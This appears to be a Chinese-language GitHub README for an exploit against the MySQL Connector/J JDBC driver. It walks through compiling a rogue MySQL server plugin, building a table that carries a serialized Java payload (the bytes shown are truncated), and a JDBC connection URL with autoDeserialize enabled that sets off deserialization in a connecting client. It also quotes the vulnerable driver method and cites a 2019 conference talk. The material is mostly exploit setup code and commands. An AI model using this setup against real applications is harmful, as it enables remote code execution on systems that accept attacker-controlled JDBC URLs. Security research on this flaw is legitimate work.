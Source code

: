 # MySQL JDBC Deserialization Payload / MySQL客户端jdbc反序列化漏洞

# 描述
当MySQL JDBC url可控时，除了能利用MySQL协议读取MySQL Client的本地文件之外，还可以利用客户端在连接服务器时会反序列化服务器返回的二进制数据，从而触发反序列化漏洞。

# 详情

### 编译插件

依赖
libmysqld-dev liblz4-dev

下载mysql-5.7.28源码到/root/mysql-5.7.28，https://launchpadlibrarian.net/451650638/mysql-5.7_5.7.28.orig.tar.gz
rewrite_example.cc见仓库
```shell
   gcc -shared -Wall -fPIC -o /usr/lib/mysql/plugin/rewrite_example.so rewrite_example.cc  -I/root/mysql-5.7.28/include $(mysql_config --cflags) $(mysql_config --libmysqld-libs) -DMYSQL_DYNAMIC_PLUGIN -lmysqlservices
```

## 2. 安装插件，建表，插入二进制数据
安装插件
```sql
INSTALL PLUGIN rewrite_example SONAME 'rewrite_example.so';
```
建表
1. 创建数据库：codeplutos，请自行创建
2. 建表sql如下
```sql
SET NAMES utf8mb4;
SET FOREIGN_KEY_CHECKS = 0;

-- ----------------------------
-- Table structure for payload
-- ----------------------------
DROP TABLE IF EXISTS `payload`;
CREATE TABLE `payload` (
  `COLLATION_NAME` varchar(255) DEFAULT NULL,
  `CHARACTER_SET_NAME` blob,
  `ID` int(5) DEFAULT NULL,
  `IS_DEFAULT` varchar(255) DEFAULT NULL,
  `IS_COMPILED` varchar(255) DEFAULT NULL,
  `SORTLEN` int(5) DEFAULT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8;

-- ----------------------------
-- Records of payload
-- ----------------------------
BEGIN;
INSERT INTO `payload` VALUES ('1big5_chinese_ci', 0x01, 1, 'Yes', 'Yes', 1);
COMMIT;

SET FOREIGN_KEY_CHECKS = 1;

```
插入payload
```sql
set @a=0xaced00057372002;
update codeplutos.payload set character_set_name = @a;
```

## 3. 指定jdbc url，连接
```
jdbc:mysql://server:port/codeplutos?detectCustomCollations=true&autoDeserialize=true
```

# 漏洞触发点：
com.mysql.jdbc.ConnectionImpl#buildCollationMapping
```java
private void buildCollationMapping() throws SQLException {
    //......省略
    try {
        results = stmt.executeQuery("SHOW COLLATION");
        if (versionMeetsMinimum(5, 0, 0)) {
            Util.resultSetToMap(sortedCollationMap, results, 3, 2);
        } else {
            while (results.next()) {
                sortedCollationMap.put(results.getLong(3), results.getString(2));
            }
        }
    } catch (SQLException ex) {
        if (ex.getErrorCode() != MysqlErrorNumbers.ER_MUST_CHANGE_PASSWORD || getDisconnectOnExpiredPasswords()) {
            throw ex;
        }
    }
    //......省略
}
```
# Reference
https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf

